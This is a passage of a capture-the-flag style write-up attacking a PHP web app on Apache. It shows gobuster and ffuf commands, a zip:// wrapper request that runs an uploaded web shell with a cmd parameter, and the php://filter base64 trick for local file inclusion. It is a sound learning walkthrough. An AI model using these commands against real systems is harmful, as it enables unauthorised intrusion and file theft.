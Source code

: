 We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.41 ((Ubuntu))

**Gobuster Scan**

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -b 400,403,404
```

![image.png](image%201.png)

## Exploitation

Before uploading anything let’s try to perform LFI:

![image.png](image%202.png)

I performed fuzzing the parameter with ffuf:

1. Intercept the request and put FUZZ keyword in appropriate place
    
    ![image.png](image%203.png)
    
2. Right click and copy file to somewhere
3. run
    
    ```bash
    ffuf -request lfi-request -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ac
    ```
    

But nothing returned here.

I tried uploading `.php` files and after zipping them run the code inside of it with `zip://` scheme but it didn’t succeed. We can find the location of uploaded zip file just hovering over appeared button for downloading it.

```bash
http://192.168.169.229/index.php?file=zip://uploads/upload_1748598468%23shell.php&cmd=id
```

It didn’t work, I am gonna try with reverse shell too and then shift to other method.

![image.png](image%204.png)

I am gonna check if we can abuse PHP wrappers.  To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`.

General form of it: `php://filter/read=convert.base64-encode/resource=<php-file>`

**Standard PHP Inclusion**
